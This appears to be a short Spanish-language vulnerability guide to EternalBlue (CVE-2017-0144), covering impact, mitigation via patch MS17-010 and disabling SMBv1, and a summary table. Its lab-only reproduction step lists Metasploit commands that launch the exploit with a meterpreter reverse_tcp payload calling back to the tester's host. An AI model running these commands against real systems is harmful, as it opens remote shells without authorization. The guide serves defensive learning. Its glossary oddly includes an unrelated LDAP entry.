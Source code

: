 # CVE-2017-0144 Guía de Vulnerabilidad: EternalBlue

## 🔎 Descripción General

- **CVE-2017-0144**: Una vulnerabilidad en SMBv1 explotada por el exploit EternalBlue, utilizada en ataques como WannaCry.

## ⚠️ Impacto

Permite ejecución remota de código a través de paquetes SMB maliciosos.

## 🧪 Reproducción (Solo en Laboratorio Aislado)

**Pasos para reproducir:**

1. Usa Metasploit:
   ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   set RHOST <IP_VICTIMA>
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set LHOST <TU_IP>
   run
   ```
2. Confirmar si se abre una sesión remota.


⚠️ **Advertencia:** Nunca pruebes estas técnicas fuera de un entorno de laboratorio controlado y con autorización explícita.

## 🛡️ Mitigación

Aplicar el parche MS17-010. Deshabilitar SMBv1 si no es necesario.

## 📝 Glosario

- **RCE**: Ejecución remota de código.
- **PoC**: Prueba de concepto.
- **LDAP**: Protocolo de acceso ligero a directorios.

## ✅ Tabla Resumen

| Aspecto              | Detalles                    |
|----------------------|-----------------------------|
| ID CVE               | CVE-2017-0144                    |
| Nombre               | EternalBlue                     |
| Impacto              | Permite ejecución remota de código a través de paquetes SMB maliciosos      |
| Tipo de Explotación  | RCE                         |
| Requiere Autenticación | No                        |
| Mitigación           | Aplicar el parche MS17-010  |

## 🔄 Próximos Pasos

- Verificar si tu sistema está afectado.
- Aplicar los parches necesarios.
- Configurar controles de mitigación adicionales si no se puede parchear inmediatamente.
